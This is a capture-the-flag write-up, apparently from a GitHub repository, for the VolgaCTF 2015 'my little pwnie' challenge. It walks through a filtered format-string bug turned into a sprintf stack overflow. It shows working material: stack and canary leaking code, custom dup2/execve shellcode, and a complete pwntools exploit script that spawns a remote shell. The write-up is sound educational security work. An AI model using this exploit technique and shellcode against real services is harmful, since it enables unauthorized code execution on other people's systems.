




##Volga CTF 2015 Writeup - my little pwnie:

**Category:** PWN 
**Points:** 250

**Solved by:** [@Fitblip](https://github.com/fitblip)

**Description:**

>Just another pwn task. Break in! nc pwnie.2015.volgactf.ru 7777
>[my_little_pwnie](https://github.com/ctfs/write-ups-2015/blob/master/volgactf-quals-2015/pwn/my-little-pwnie/my_little_pwnie)

---

As we started looking at this I said maybe the dumbest thing I could have. 

>Oh this is just a simple format string vuln 

Protip: NEVER say these words during a CTF

Unfortunately I didn't solve this during the competition, but I was determined to do so eventually. There was a *lot* to this exploit, so I'll break it down by sections.

## Finding the vuln
Since format string vulns seem to be a favorite of any good CTF, that's usually the first thing I try. A simple `%08x` will tell you if there is a vulnerability present. `0x%08x` will pop the first argument off the stack and pad it to 8 places, so if our value at the top of the stack was `3`, the reflected buffer would be `0x00000003`

Once that was done, I coded up a stack-dumper (`dump_stack()` from below) which gave us numbered parameters:
```
$ python dumpstack.py
$ESP+004[$01]:0x0000003f
$ESP+008[$02]:0x00000000
$ESP+012[$03]:0x080483a0
$ESP+016[$04]:0x08048370
...SNIP...
```

At that point we had a good map of the stack locations we had access to during the exploit condition, so it was time to start debugging and looking for addresses to clobber!

## Tooling
On to debugging the binary itself. I turned to a combination of IDA and GDB (with the *excellent* [peda](https://github.com/longld/peda) plugin) for this task. The really annoying part is that on each connection our binary calls `fork()`, which means that IDA's debugger can't follow the child process (since there's no `follow-form-mode` in IDA). I ended up creating a patched version which skips the fork so that IDA can debug the full way. Since IDA's debugger leaves something to be desired (in terms of memory identification), I also created the following gdbinit to save having to do it every time.


```
$ cat .gdbinit
set args 4321
set follow-fork-mode child <--- Upon fork(), continue debugging the child process
# Sprintf call
#b *0x8048a52
# clobbered RET call       <--- Discovered later :-P
#b *0x8048b23
# Stack check              <--- Discovered later :-P
#b *0x8048b01
r
```

## Finding the vuln (continued)
At this point I figured out a memory location to write into (RET), and sent off something like `AAAA%10$n`, which promptly came back with:
```
I strip this awful symbol 
```

What!? That wasn't in the strings. What is going on here?



Ahh, clever girl. They're looking for `0x6e` (the `n` character) in the received buffer, and uses an asm string push to echo out the string, bypassing the vulnerable call to sprintf! Bastards.

That means that arbitrary memory writes are out, right? 

Not necessarily!

After scratching my head for a bit I realized that this was a vulnerable call to `sprintf()`, NOT `snprintf()`! `sprintf` can be vulnerable to a buffer overflow condition since it doesn't specify the number of bytes to copy like `snprintf()` does! The only hurdle is that the `recv()` call only takes in 63 bytes at a time, so that is the MAX our payload can be. No big deal though, we can just write the right amount of `%Nx`'s and put stuff where we want. 

Looking over the code, we want to clobber the RET that's used during an exit/failure condition, mostly because 1.) we have a few different writes to deal with stack cookies, and 2.) we can't reach any earlier RET pointers :).



##Clobbering RET

The RET in question is at `0x8048b23`, so we set a breakpoint there and trigger it by sending `exit\n`



The pointer it's jumping to is `0x8048e23` which is located at the stack address `0xbfffefcc`. Referencing our old stack dump that's located as argument #32. At this point it's just a matter of writing enough bytes to overflow, then clobbering `0x8048e23` to our own location.

##Stack cookies and shellcode location

There's 2 other places we need to be aware of to make this work. The first is the location of our dst buffer, which is thankfully on the stack at parameter #6. The second is our stack canary, which is located at argument #26. After leaking both of these it's a simple matter of clobbering RET with our shellcode location (with 12 or so bytes added to account for the "Echo: " response). We partially fix the stack cookie at the same time, but replace the final null byte with \xff, since a null byte will break our payload. The way to fix the stack cookie is with a separate payload that writes the null terminating byte from the string output into the least significant byte.

At this point things were acting /really/ weird. Things should be fine, but they weren't. strace/ltrace were throwing complete shit fits, and I would keep getting my sprintf breakpoint hit. Something was clearly borked, and what I hadn't realized was that argument #33 (the next argument after our target RET) is actually a file descriptor from the earlier `accept()` call. It was getting clobbered with the null byte at the end of our junk+cookie+junk+RET blob. After adjusting to leak that value as well (though it IS usually just 4, GDB messes with them :( ), and writing it dynamically, we now had a stable way to achieve code execution!

##Payload

I had read exploits that used pwntools before, but never tried it myself. I have to say it's quite awesome (especially the shellcraft module). Unfortunately I couldn't just call `asm(shellcraft.nop()) * 10 + asm(shellcraft.dupsh())` to have it work since `/bin/sh` has a "n" character in it! `shellcraft.dupsh()` also expects our file descriptor to be in ebp, which it wasn't, so I had to do a bit of editing :).

The two major changes in the payload are the file descriptor location, and a workaround for the `n` in `/bin/sh`.

```asm
dup_3:
    /*
      Our file descriptor is actually sitting on top of the stack at this point,
      so I just pop it into ebx
      ; mov ebx, eax
    */
    pop ebx
    push 0x3
    pop ecx
loop_4:
    dec ecx

    push 0x3f
    pop eax
    int 0x80
    jnz loop_4

/* execve("/bin/sh", 0, 0) */
    push 0x68
    push 0x732f2f2f
    /*
      This string contains a "n", so it won't work. Use XOR mask to fix it. 
      ; push 0x6e69622f
    */
    mov eax, 0x7f78733e
    xor eax, 0x11111111
    push eax

    mov ebx, esp
    xor ecx, ecx
    push 0xb
    pop eax
    cdq
    int 0x80
```

## Fire ze missles!

After combining the above, we now have a very stable exploit that works regardless of file descriptor location, and the inability for us to write memory locations with `%n`!



```python
import socket
import struct
import time

from pwn import *

r = remote('127.0.0.1', 4321)

r.recvuntil("Type string to echo back: ")

# Helper function to dump out current stack variables
def dump_stack(num_of_vars=101):
    """
    Example output:
        $ESP+004[$01]:0x0000003f
        $ESP+008[$02]:0x00000000
        $ESP+012[$03]:0x080483a0
        $ESP+016[$04]:0x08048370
        ...SNIP...
    """
    for x in range(1, num_of_vars):
        r.send("0x%%%d$08x" % x)
        rec = r.recvuntil("Type string to echo back: ")
        print "$ESP+%03d[$%02d]:0x%08x" % ((x * 4), x, int(rec[6:16],16))

def get_stack_cookie():
    """
    Retrieves the stack cookie that we will clobber in subsequent calls. 
    We have to repair it lest __stack_chk_fail() gets called.
    """
    # Stack cookie is stored in arg 26 ($esp+104)
    stack_cookie = "0x%26$08x"
    r.send(stack_cookie)
    rec = r.recvuntil("Type string to echo back: ")

    # Trim out the cookie, and cast it to an int
    cookie = int(rec[6:16],16)
    
    # Convert to the proper endianness and remove null byte (we fix this later)
    cookie_str = struct.pack("<L", cookie).replace("\x00","\xFF")
    
    print "[+] Cookie: %s" % hex(cookie)
    return cookie_str

def get_shellcode_location():
    # Shellcode is stored in arg 6 (then +a few bytes to land on the nopsled)
    shellcode_start = "0x%6$08x" # shellcode_start + 6 

    # Leak buffer pointer
    r.send(shellcode_start)
    rec = r.recvuntil("Type string to echo back: ")

    # Trim out the location and calculate offset to start of shellcode
    #
    #  "E|c|h|o|:| |" + SHELLCODE
    #  \____________/
    #        \- 12 bytes before our shellcode starts
    #
    shellcode = int(rec[6:16],16) + 12

    # Convert to the right endianness
    shellcode_str = struct.pack("<L", shellcode)

    print "[+] Shellcode Location: %s" % hex(shellcode)
    return shellcode_str

def get_current_file_descriptor():
    # This caused me massive headache. GDB mucks with FDs so none of my shellcode was working in GDB :(
    fd_location = "0x%32$08x" # shellcode_start + 6 
    r.send(fd_location)
    rec = r.recvuntil("Type string to echo back: ")

    file_descriptor = int(rec[6:16],16)
    print "[+] File descriptor: 0x%02d" % file_descriptor
    return chr(file_descriptor)

def clobber_ret_and_cookie(stack_cookie, shellcode_location, FD):    
    junk = "\xff" * 28
    payload = "%122x" + stack_cookie.replace("\x00",'\xFF') + junk + shellcode_location + FD
    r.send(payload)
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Clobbering RET pointer and partially restoring stack cookie"
    return rec

def fix_stack_cookie():
    r.send("%122x")
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Fixing stack cookie"
    return rec

def write_shellcode():
    # Man shellcraft is *awesome*. A pinch of nopsled for good measure.
    shellcode = asm(shellcraft.nop()) * 10 

    # Editied shellcraft.dupsh()
    #  * When our shellcode is executed, our current FD is sitting on the top of the stack, 
    #    so we just pop it off (since it's not in any register) and dup that. We could also 
    #    specify 4/8 depending on if we're running through GDB or not (it messes with file 
    #    descriptors :( )
    #
    #  * The "n" in /bin/sh will cause it to go down a different codepath, so I had to XOR mask it
    #    to ensure that 
    # 
    shellcode += asm("""
        /* dup our FDs */
        dup_3:
            ; mov ebx, eax
            pop ebx
            push 0x3
            pop ecx
        loop_4:
            dec ecx

            push 0x3f
            pop eax
            int 0x80
            jnz loop_4

        /* execve("/bin/sh", 0, 0) */
            push 0x68
            push 0x732f2f2f
            /*
              This string contains a "n", so it won't work. Use XOR mask to fix it. 
              ; push 0x6e69622f 
            */
            mov eax, 0x7f78733e
            xor eax, 0x11111111
            push eax

            mov ebx, esp
            xor ecx, ecx
            push 0xb
            pop eax
            cdq 
            int 0x80
    """)

    # Make sure we have no "n" or no null characters in the shellcode
    assert "n" not in shellcode and "\x00" not in shellcode
    
    r.send(shellcode)
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Writing shellcode..."
    return rec

def i_am_vuln_kin_and_you_have_triggered_me():
    # Trigger the fireworks
    r.send("exit\n")
    r.recv(1024)

# Collect our necessary things from the stack
stack_cookie       = get_stack_cookie()
shellcode_location = get_shellcode_location()
file_descriptor    = get_current_file_descriptor()

# Clobber the RET pointer and partially restore the cookie
clobber_ret_and_cookie(stack_cookie, shellcode_location, file_descriptor)

# Use the null byte of our return statement to fix the last byte in the stack cookie
fix_stack_cookie()

# Write our shellcode with a nopsled to account for the trigger
write_shellcode()

# Have it go clean up, then RET to our shellcode
i_am_vuln_kin_and_you_have_triggered_me()

# Gimme shell!
r.interactive()
```
